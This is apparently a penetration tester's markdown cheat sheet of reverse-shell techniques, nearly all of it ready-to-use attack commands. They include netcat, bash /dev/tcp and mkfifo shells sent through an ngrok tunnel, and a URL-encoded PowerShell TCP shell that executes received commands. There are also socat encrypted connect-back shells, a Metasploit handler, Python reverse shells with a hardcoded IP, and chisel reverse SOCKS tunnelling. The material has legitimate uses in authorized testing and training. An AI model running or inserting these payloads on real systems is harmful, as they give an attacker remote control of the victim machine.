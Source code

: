 # Multiple choices
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

# ngrok as a proxy
```bash
# On attacker (term1)
ngrok tcp 12345

# On attacker (term2)
nc -lvp 12345

# On target, use your reverse shell payload on the ngrok tunnel target
nc NGROK_PUBLIC_IP NGROK_PORT -e /bin/sh
bash -c "bash -i >& /dev/tcp/NGROK_PUBLIC_IP/NGROK_PORT 0>&1"
mkfifo /tmp/f; nc NGROK_PUBLIC_IP NGROK_PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

# Powershell & others
https://www.revshells.com/
```powershell
# Replace <ip> and <port>
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<ip>%27%2C<port>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

# Encrypted shell with socat
```bash
# Create self-signed certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# Create our single pem file
cat shell.key shell.crt > shell.pem

# Listen with socat, the cert, and specify verify=0 to not verify whether the cert has been properly signed by a recognised authority.
socat OPENSSL-LISTEN:LISTENING_PORT,cert=shell.pem,verify=0 -
socat OPENSSL-LISTEN:LISTENING_PORT,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

# Connect back
socat OPENSSL:HOST_IP:LISTENING_PORT,verify=0 EXEC:/bin/bash
socat OPENSSL:HOST_IP:LISTENING_PORT,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

# socat not stabilized
```bash
# Same as nc -lvnp LISTENING_PORT
socat TCP-L:LISTENING_PORT -

# Then we connect back from the target
## Windows target
socat TCP:HOST_IP:LISTENING_PORT EXEC:powershell.exe,pipes

## Linux target
socat TCP:HOST_IP:LISTENING_PORT EXEC:"bash -li"
```

# socat fully stabilized (linux only)
```bash
# This also work using ngrok

# Listen on host
socat TCP-L:LISTENING_PORT FILE:`tty`,raw,echo=0

# Connect back
socat TCP:HOST_IP:LISTENING_PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

# Using Metasploit
```bash
msfconsole -q
use multi/handler
set PAYLOAD PAYLOAD
options # Fill the options
exploit -j # Start and run the job in background
```

# Using python
## Inside a script
```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("IP",PORT))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")

```

## Create shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.33.78",33456));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

## Stabilize shell (can go up, get history, ...)
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo ; fg
export TERM=xterm

# Web servers on Unix
See /usr/share/webshell to have ready to use webshells, update MY_IP and LISTENING_PORT
```bash
nc -lvnp LISTENING_PORT
```

# Connected on windows (well, maybe not)
https://github.com/jpillora/chisel

```bash
Create binaries
go mod vendor
go build -ldflags "-s -w" # build Linux binary:
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" # build Windows binary
```

```bash
# Listening
/opt/chisel/chisel server -p LISTENING_PORT --reverse
```

```sh
# Powershell command
chisel-x64.exe client MY_IP:LISTENING_PORT R:socks
```

http://github.com/certat/intelmq-docker.git